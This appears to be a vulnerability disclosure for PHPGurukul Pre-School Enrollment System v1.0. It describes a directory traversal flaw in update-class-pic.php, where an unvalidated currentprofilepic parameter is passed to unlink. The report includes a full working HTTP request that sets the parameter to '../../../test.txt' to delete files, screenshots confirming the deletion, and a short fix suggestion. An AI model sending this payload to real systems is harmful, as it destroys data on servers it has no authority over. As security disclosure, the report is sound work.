 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-3(update-class-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-class-pic.php file    
   Lines 15 and 16 get the currentprofilepic parameter and assign it to oldprofilepic. No verification is performed on currentprofilepic.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/8.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/9.png) 
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/1.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-class-pic.php page, classes-manage-Edit Class-Update Class Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/4.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/5.png)

   Transformed into attack payload    

    
    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7 HTTP/1.1
    Host: localhost
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywWObpfrtssMBATrx
    Accept-Language: zh-CN,zh;q=0.9
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Origin: http://localhost
    sec-ch-ua-mobile: ?0
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br, zstd
    Content-Length: 5637583

    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../test.txt
    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="teacherpic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundarywWObpfrtssMBATrx--

   Create test.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/7.png)

   Send payload, test.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/8.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
